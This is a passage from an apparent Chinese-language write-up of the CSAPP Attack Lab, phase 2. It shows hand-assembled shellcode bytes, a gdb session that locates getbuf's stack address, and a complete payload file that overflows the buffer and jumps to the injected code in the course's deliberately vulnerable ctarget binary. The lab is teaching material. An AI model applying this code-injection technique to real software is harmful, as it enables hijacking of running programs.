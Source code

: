 我们就得到了字节序列：

```bash
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3
```

这个序列就可以放在我们注入攻击的字符串的前40个字节。我们现在需要找到`getbuf()`栈顶的位置，这样的话，当我们在缓冲区最后8位注入了此时栈顶的位置，我们就可以跳转到此时的栈顶，开始执行我们注入的指令。

用`gdb`查找栈顶的地址。

```bash
(gdb) b getbuf
Breakpoint 1 at 0x4017a8: file buf.c, line 12.
(gdb) r -qi p1
Starting program: /mnt/c/Users/eagle/Documents/Repos/Eagle233-In-Class-Practices/CSAPP/Lab3 - attack lab/lab3/target1/ctarget -qi p1
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:12
12      buf.c: No such file or directory.
(gdb) s
14      in buf.c
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
=> 0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    ret
End of assembler dump.

(gdb) p/x $rsp
$1 = 0x5561dc78
```

因此栈顶的地址为`0x5561dc78`。于是我们可以写出序列到`p2.txt`：

```bash
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

然后运行：

```bash
./hex2raw < p2.txt > p2
./ctarget -qi p2
```
